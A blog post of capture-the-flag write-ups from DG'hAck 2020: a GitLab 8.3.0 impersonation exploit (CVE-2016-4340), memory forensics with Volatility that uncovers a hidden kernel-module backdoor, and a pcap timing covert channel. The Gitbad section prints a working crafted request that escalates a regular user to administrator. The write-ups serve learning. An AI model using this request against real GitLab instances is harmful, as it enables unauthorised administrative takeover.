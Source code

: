 ```yaml
---
title: "DG'hAck: Gitbad, Bwing & Shadowmallet, Time for something different"
date: 2020-12-01T21:02:53+01:00
summary: "Another set of DG'hAck 2020 writeups"
tags:
  - dghack2020
---
```


# Gitbad

The Gitbad challenge is a gitlab instance, in which it is required to find some sensible data. Once registered on the service, we see on the "help" page that version running is `GitLab Community Edition 8.3.0 02076d7` with a big fat red "UPDATE ASAP" warning.

So, update asap, isn't it? Let's check CVEs. There is one interesting: CVE-2016-4340. It specifies The impersonate feature in Gitlab 8.3.0 [...] allows remote authenticated users to "log in" as any other user via unspecified vectors. Another little check, and we're getting some more details about it:

```
Login as regular user.
Get current authenticity token by observing any POST-request (ex.: change any info in user profile).

Craft request using this as template:
 
POST /admin/users/stop_impersonation?id=root

...

_method=delete&authenticity_token=lqyOBt5U%2F0%2BPM2i%2BGDx3zaVjGgAqHzoteQ15FnrQ3E8%3D
```

We need to find the authenticity_token. To get it, just go in your profile, open the developer console, click save, check the `POST` request, and the token should be in it:

```
_method: put
authenticity_token: cge+0nzmxDI6CAg6uzKEhcuzxcAMp9bJRvGrnz71K2owJqkeryiwGkqjVM/pNBoROphIDRPjH4rY6qseuqbPYw==
user[name]: testaroo
user[email]: test@test.com
```

Next step is to find the administrator's id. Go in the Dashboard, create a new Group. In the Group settings, in the Members tab, search for Administrator, and you'll get the Admin ID: `"name":"Administrator","username":"8e4684f1498aad818870376301b15426"`

So, we have our token, we have administrator's ID. Let's craft the `stop_impersonation` query in the JS console:

```
$.post('/admin/users/stop_impersonation?id=8e4684f1498aad818870376301b15426', '_method=delete&authenticity_token=cge+0nzmxDI6CAg6uzKEhcuzxcAMp9bJRvGrnz71K2owJqkeryiwGkqjVM/pNBoROphIDRPjH4rY6qseuqbPYw%3D%3D');
```

Reload the gitbad page, and... you'll be administrator. You still need to find the flag.

In the Admin area, you'll be able to list projects. Search for the archived ones, you'll get the `stephan/my-secret-project`. Check the `added my private key` commit and:

```
+flag: W3lL-d0N3-y0u-w1n-a_c4ke!
```

This challenge is flag'ed!


# Bwing & Shadowmallet

Those two challenges are quite similar. You are getting a memory dump of a running server, and you must find the flag in it. In the first one, `bwing`, that's just a file on the FS in memory. In the second one, it is a loadable kernel module backdoor (The challenge title is a reference to  the shadow hammer APT). As those are memory dumps, we'll make use of the [volatility framework](https://github.com/volatilityfoundation/volatility).

## For Bwing:

```sh
$ vol.py --plugin profiles --profile LinuxUbuntu_4_15_0-66-generic_profilex64 -f dump.raw linux_recover_filesystem --dump-dir out
Volatility Foundation Volatility Framework 2.6.1
... snip ...

$ cat out/mnt/confidential/flag.txt 
C0D3N4M34P011011
```


## For Shadowmallet

```sh
$ vol.py --plugin profiles --profile LinuxDebian_4_19_0-9-amd64_profilex64 -f shadowmallet linux_recover_filesystem --dump-dir out
... snip ...

$ strings out/var/log/kern.log |grep -i taint
Nov  9 17:30:13 contrib-buster kernel: [    1.605821] netfilter: loading out-of-tree module taints kernel.
Nov  9 17:30:13 contrib-buster kernel: [    1.605836] netfilter: module verification failed: signature and/or required key missing - tainting kernel

$ vol.py --plugin profiles --profile LinuxDebian_4_19_0-9-amd64_profilex64 -f shadowmallet linux_hidden_modules
Volatility Foundation Volatility Framework 2.6.1
Offset (V)         Name
------------------ ----
0xffffffffc04a6000 netfilter
0xffffffffc0578300 qni

$ vol.py --plugin profiles --profile LinuxDebian_4_19_0-9-amd64_profilex64 -f shadowmallet linux_moddump --dump-dir mods -b 0xffffffffc04a6000
Volatility Foundation Volatility Framework 2.6.1
Wrote 668514 bytes to netfilter.0xffffffffc04a6000.lkm

$ strings -n 10 mods/netfilter.0xffffffffc04a6000.lkm |head -5
4.19.0-9-amd64
[]A\A]A^A_
[]A\A]A^A_
YES SHA1 is CORRECT
B3tterR=H1deMebeTT3r=then!Right?

```

# Time for something different

In that one, you're getting a `data.pcap` file. You can read it quickly with `tcpdump`:

```sh
$ tcpdump -r data.pcap 
reading from file data.pcap, link-type EN10MB (Ethernet)
11:28:05.271523 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:05.974534 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:06.737381 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:07.390550 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:08.103364 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:09.336651 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:10.500205 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:10.982931 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:11.465408 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:12.617796 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:13.701056 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:14.814156 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:15.686772 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:16.799993 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:17.943153 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:19.106441 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:19.589015 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:20.071611 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:20.754520 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:21.266580 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:22.449633 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:22.942506 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:24.054744 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:25.228047 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:25.589787 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:26.843252 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
```

I've quickly checked icmp packets, but nothing strange/relevant in them. The main information is in timestamp (and this is the name of the challenge, right?). We quickly see deltas between pings are not regular. Let's take a better look at those deltas:

```sh
$ tcpdump -ttt -r data.pcap  | cut -d ':' -f3 | cut -d ' ' -f 1 | sed -e 's/\.//;s/^0//;s/....$//' | xargs
reading from file data.pcap, link-type EN10MB (Ethernet)
000 070 076 065 071 123 116 048 048 115 108 111 087 111 114 116 048 048 068 051 118 049 111 117 036 125
```

Most numbers are between 65 & 125. Ascii, if you ask me. Let's check that:

```sh
$ tcpdump -ttt -r data.pcap  | cut -d ':' -f3 | cut -d ' ' -f 1 | sed -e 's/\.//;s/^0//;s/....$//' | awk '{printf("%c",$1)}'
reading from file data.pcap, link-type EN10MB (Ethernet)
FLAG{t00sloWort00D3v1ou$}
```

# What did I learn ?

Volatility! Seems like a must to know tool for forensic. Alas the profile generation is kinda a pain in the ass.⏎                                             
